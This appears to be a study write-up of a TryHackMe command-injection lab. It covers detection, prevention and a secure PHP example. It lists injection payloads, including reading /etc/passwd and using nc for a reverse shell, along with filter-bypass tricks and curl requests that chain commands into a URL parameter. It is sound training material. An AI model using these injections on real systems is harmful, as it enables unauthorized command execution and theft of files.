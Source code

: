 
Command Injection – TryHackMe

💻 Overview

This room introduces the concept of Command Injection, a critical web vulnerability that allows attackers to execute system commands on a host through a vulnerable web application. The module covers detection methods, common payloads, prevention strategies, and hands-on exploitation techniques.

🧪 Key Concepts Covered

What is Command Injection?

Occurs when user input is passed unsanitized into system command functions (e.g., system(), exec() in PHP, or subprocess in Python).

The attacker executes commands with the same privileges as the application.

Often leads to full system compromise if the application has high-level privileges.

Detection Methods

Method

Description

Verbose

Output from injected commands is visible on the page (e.g., whoami returns current user).

Blind

No visible output; attacker infers success via delays (e.g., using sleep, ping), or side-effects.

Useful Payloads

Linux

whoami – Determine user running the app

ls – List directory contents

ping -c 5 127.0.0.1 – Introduce delay for blind testing

sleep 5 – Force delay without ping

cat /etc/passwd – Read system files

nc – Spawn reverse shell

Windows

whoami

dir

ping -n 5 127.0.0.1

timeout /T 5

Bypassing Filters

Use hexadecimal or encoded characters (e.g., \x27 instead of ')

Use different shell operators: ;, &&, |, ``

Use redirection: > or output to known file, then read

Detection Examples

curl http://target.app/?search=term;whoami

For blind: curl http://target.app/?search=term;ping -c 5 127.0.0.1

💡 Prevention Techniques

Avoid Dangerous Functions

PHP: exec(), passthru(), shell_exec()

NodeJS: child_process.exec

Python: os.system, subprocess

Input Sanitization

Accept only expected input formats (e.g., numeric-only input).

Whitelisting input or using strict validation patterns (e.g., regex).

Secure Code Example

$input = filter_input(INPUT_POST, "id", FILTER_VALIDATE_INT);
if ($input !== false) {
    system("some_command $input");
}

✅ Lab Summary

Lab Objective

Identify a command injection point on the hosted application.

Use verbose or blind payloads to execute commands.

Retrieve the flag at /home/tryhackme/flag.txt.

Sample Exploitation Flow

Inject whoami to confirm verbose output:curl http://MACHINE_IP/?search=test;whoami

Try blind injection:curl http://MACHINE_IP/?search=test;ping -c 5 127.0.0.1

Retrieve flag:
curl http://MACHINE_IP/?search=test;cat /home/tryhackme/flag.txt

📅 Takeaways

Command Injection is among the most critical web vulnerabilities due to direct OS access.

Verbose injection is easier to detect; blind injection requires creativity.

Always sanitize input and avoid direct use of shell commands with user input.

Use delay-based techniques, redirection, or curl requests to test blind injection.

✅ Status

Room completed.
